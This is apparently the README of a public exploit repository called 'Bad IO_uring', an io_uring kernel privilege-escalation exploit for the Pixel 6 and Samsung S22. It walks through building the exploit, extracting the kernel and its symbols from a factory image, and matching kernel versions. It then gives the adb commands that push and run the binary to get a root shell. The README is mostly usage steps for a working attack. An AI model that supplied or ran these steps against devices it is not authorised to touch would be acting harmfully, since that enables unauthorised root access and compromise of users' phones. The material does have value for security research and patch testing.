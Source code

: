 # Bad IO_uring
## Build the exploit

Make sure the [Android NDK](https://developer.android.com/ndk) is installed. For pixel 6,
```bash
make pixel
```

For samsung s22,
```bash
make s22
```

## How to use the exploit
The exploit is written to support different versions of kernels. In order to port the exploit to a different kernel, you need to extract the symbol file of the target kernel.

The kernel could be extract from the factory image of the phone. For Pixels, download the factory image [here](https://developers.google.com/android/images).

After downloading the image, extract the image to get `boot.img` file. `boot.img` can be extracted with `tools/unpack_bootimg.py`.
```bash
python3 tools/unpack_bootimg.py --boot_img boot.img --out out
```
You will see the kernel at `out/kernel`


Now, with the kernel image, we can use [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) to extract kernel symbols from it.
```
./tools/vmlinux-to-elf/kallsyms-finder out/kernel > pixel.kallsyms
```

You have to make sure the `Version string` extracted in the symbol matches your phone's kernel version. The kernel version of the phone could be looked up through `adb`. For example,

```
sh-3.2$ adb shell
oriole:/ $ uname -a
Linux localhost 5.10.66-android12-9-00007-g66c74c58ab38-ab8262750 #1 SMP PREEMPT Mon Mar 7 01:27:36 UTC 2022 aarch64
```
matches 
```
[+] Version string: Linux version 5.10.66-android12-9-00007-g66c74c58ab38-ab8262750 (build-user@build-host) (Android (7284624, based on r416183b) clang version 12.0.5 (https://android.googlesource.com/toolchain/llvm-project c935d99d7cf2016289302412d708641d52d2f7ee), LLD 12.0.5 (/buildbot/src/android/llvm-toolchain/out/llvm-project/lld c935d99d7cf2016289302412d708641d52d2f7ee)) #1 SMP PREEMPT Mon Mar 7 01:27:36 UTC 2022
```

Now you can push the exploit and the symbol file to the phone and get it rooted with the following commands.

```bash
make
adb push exp pixel.kallsyms /data/local/tmp
adb shell
cd /data/local/tmp
./exp pixel.kallsyms
```

Enjoy your root shell :)